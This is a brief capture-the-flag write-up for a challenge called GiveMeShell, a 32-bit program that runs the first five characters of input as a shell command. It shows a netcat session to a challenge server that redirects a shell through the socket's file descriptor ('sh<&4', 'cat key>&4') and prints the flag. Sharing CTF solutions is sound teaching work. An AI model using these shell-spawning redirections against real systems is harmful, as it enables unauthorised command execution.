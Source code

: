 ## GiveMeShell

first of all, givemeshell is the "ELF 32-bit LSB executable". 
By trying a bit of reverse engineering, you get to know that the challenge executes the first 5 characters of the input in the remote shell.
since the program accesses the input with the fork, we can use the file descriptor 4 (which is socket) to spawn the shell and list the key.

```
C:\Users\Samsung>nc 119.70.231.180 8765
sh<&4
ls>&4
cat key>&4
key : WeLoveShell
```

